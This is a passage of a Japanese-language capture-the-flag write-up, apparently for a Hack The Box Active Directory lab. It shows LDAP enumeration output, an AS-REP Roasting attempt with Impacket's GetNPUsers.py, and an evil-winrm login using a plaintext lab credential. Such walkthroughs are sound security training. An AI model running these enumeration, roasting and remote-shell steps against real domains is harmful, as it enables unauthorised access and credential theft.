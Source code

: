 ```bash
# search reference
ref: ldap://DomainDnsZones.htb.local/DC=DomainDnsZones,DC=htb,DC=local

# search reference
ref: ldap://htb.local/CN=Configuration,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 6
# numEntries: 2
# numReferences: 3

```

新しく得られたユーザー情報でAS-REP Roastingできるかを確かめたけど、特になさそう
```bash
└──╼ [★]$ GetNPUsers.py htb.local/ -dc-ip 10.129.206.80 -no-pass -usersfile users.txt
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
<SNIP>
```

WinRMへのログイン成功
```bash
──╼ [★]$ evil-winrm -i 10.129.206.80 -u svc-alfresco -p 's3rvice'                  
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /priv

PRIVILEGES INFORMATION
```